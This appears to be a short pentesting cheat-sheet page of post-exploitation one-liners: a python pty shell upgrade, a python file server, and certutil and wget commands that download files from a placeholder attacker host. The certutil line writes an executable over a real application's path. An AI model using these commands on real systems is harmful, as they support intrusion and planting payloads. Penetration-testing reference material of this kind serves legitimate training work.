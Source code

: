 ```yaml
---
layout: default
title: Shell Interraction
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: DylanGrl Writings
---
```


## Shell Interraction

### Interactive Shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Web Server
```bash
sudo python3 -m http.server
```

### File Download
#### Windows CMD
```powershell
certutil -urlcache -f http://$YOUR_IP/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```

#### Linux :

```bash
wget http://<IP>:<PORT>/<FILE>
```